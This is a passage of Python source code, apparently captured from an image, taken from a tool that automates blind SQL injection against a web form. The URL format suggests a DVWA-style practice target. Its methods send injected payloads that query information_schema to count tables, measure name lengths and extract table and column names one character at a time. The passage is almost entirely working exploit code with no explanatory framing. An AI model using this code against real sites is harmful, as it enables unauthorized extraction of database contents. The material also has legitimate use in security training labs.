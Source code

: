 ```python
            theurl = self.url + "1' and (select count(table_name)a from information_schema.tables where table_schema=database() having a={0})%23".format(str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.table_num = i
                break
        if self.table_num > 0:
            print('\n==>',self.table_num)
        else:
            print("\ncan not get the table_num")           
    def get_table_length(self):
        for i in range(1,50):
            self.process('get_table_length',i,50)
            theurl = self.url + "1' and (select length(group_concat(table_name)) as a from information_schema.tables where table_schema=database() having a={0})%23".format(str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.table_length.append(i)
                break
        if self.table_length[0] > 0:
            print('\n==>',self.table_length)
        else:
            print('\ncan not get the table_length')
    def get_table_name(self):
        name = ''
        for i in range(1,self.table_length[0]+1):
            for j in self.zifuji:
                self.process('{0} get_table_name'.format(i),j,50)
                theurl = self.url + "1' and (select ascii(substring(group_concat(table_name),{0},1)) as a from information_schema.tables where table_schema=database() having a={1})%23".format(str(i),str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        if len(name) > 0:
            print('\n==>',name)
            self.table_name.append(name)
        else:
            print('\ncan not get the table_name')
    def get_column_num(self,table_name):
        self.column_num = 0
        for i in range(1,30):
            self.process('get_column_num',i,30)
            theurl = self.url + "1' and (select count(column_name) as a from information_schema.columns where table_schema=database() and table_name='{0}' having a={1})%23".format(table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.column_num = i
                break
        if self.column_num > 0:
            print('\n==>',self.column_num)
    def get_column_length(self,table_name):
        for i in range(1,100):
            self.process('get_column_length',i,100)
            theurl = self.url + "1' and (select length(group_concat(column_name)) as a from information_schema.columns where table_schema=database() and table_name='{0}' having a={1})%23".format(table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
```